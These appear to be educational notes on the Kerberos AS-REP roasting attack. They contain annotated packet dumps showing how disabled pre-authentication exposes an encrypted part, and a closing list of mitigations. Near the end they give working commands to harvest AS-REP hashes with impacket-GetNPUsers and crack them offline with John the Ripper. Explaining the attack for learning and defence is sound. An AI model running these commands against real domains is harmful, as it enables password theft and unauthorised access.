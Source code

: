 AS-REP roasting is an attack against Kerberos that allows password hashes to be retrieved for users that do not require Pre-authentication.

- Some accounts may be configured not to require pre-authentication (e.g., service accounts or old accounts). 

- For these accounts, the KDC will directly respond to an AS-REQ (Authentication Service Request) with an AS-REP message.


### Normal Authentication Flow When PreAuth is Enabled For a User

#### AS REQ

```
Kerberos AS-REQ
    pvno: 5
    msg-type: krb-as-req (10)
    padata: 1 item
        PA-DATA
            padata-type: PA-ENC-TIMESTAMP (2)
            padata-value (Encrypted): 
                Encryption Type: aes256-cts-hmac-sha1-96
                Encrypted Data: 7a3f8e... (AES-encrypted timestamp)
    req-body
        kdc-options: forwardable, renewable
        cname: bob@DOMAIN.HTB
        realm: DOMAIN.HTB
        sname: krbtgt/DOMAIN.HTB
        nonce: 12345678
        etype: aes256-cts, aes128-cts, rc4-hmac

```

- padata: (Pre Auth Data) Current TImeStamp Encrypted with User's Password hash
#### AS REP

```
Kerberos AS-REP
    pvno: 5
    msg-type: krb-as-rep (11)
    ticket
        tkt-vno: 5
        realm: DOMAIN.HTB
        sname: krbtgt/DOMAIN.HTB
        enc-part (Encrypted with KDC key): aes256-cts-hmac-sha1-96
            (Decrypted contents: session key, client principal, expiry, etc.)
    enc-part (Encrypted with user's key): aes256-cts-hmac-sha1-96
        ciphertext: a3d1f5... (long hex string)
        (Decrypted contents: session key, nonce, flags, etc.)
```

- ticket: TGT, encrypted with KDC's key (krbtgt account hash)
- enc-part: session key, encrypted with the user’s password hash, (we need this session key when requesting Service Tickets)

### Authentication Flow When PreAuth is Disabled For a User.
#### AS REQ

```
Kerberos AS-REQ
    pvno: 5
    msg-type: krb-as-req (10)
    req-body
        kdc-options: forwardable, renewable
        cname: bob@DOMAIN.HTB
        realm: DOMAIN.HTB
        sname: krbtgt/DOMAIN.HTB
        nonce: 12345678
        etype: aes256-cts, aes128-cts, rc4-hmac
```

- No padata field: This is the key indicator that pre-authentication is disabled
- cname: name of the user
#### AS REP 

```
Kerberos AS-REP
    pvno: 5
    msg-type: krb-as-rep (11)
    ticket
        tkt-vno: 5
        realm: DOMAIN.HTB
        sname: krbtgt/DOMAIN.HTB
        enc-part (Encrypted with KDC key): aes256-cts-hmac-sha1-96
            (Decrypted contents: session key, client principal, expiry, etc.)
    enc-part (Encrypted with user's key): aes256-cts-hmac-sha1-96
         ciphertext: a3d1f5... (long hex string)
        (Decrypted contents: session key, nonce, flags, etc.)
```

- ticket: TGT, encrypted with KDC's key (krbtgt account hash)
- enc-part: session key, encrypted with the user’s password hash

Now an attacker can perform offline password brute force attack to decrypt this enc-part cipher text and get the user password.

```
$krb5asrep$18$bob@DOMAIN.HTB:a3d1f5...
```

```
impacket-GetNPUsers -dc-ip X.X.X.X doamin.local/ -usersfile users.txt -format john -outputfile hashes
```

```
john -wordlist=/usr/share/wordlists/rockyou.txt hashes
```

### Mitigation

1. **Enforce Pre-Authentication**: Ensure that all user accounts require pre-authentication.
2. **Strong Password Policies**: Implement and enforce strong password policies to make brute-force attacks more difficult.
3. **Monitoring and Alerts**: Monitor for unusual authentication requests and alert on suspicious activity related to AS-REP requests.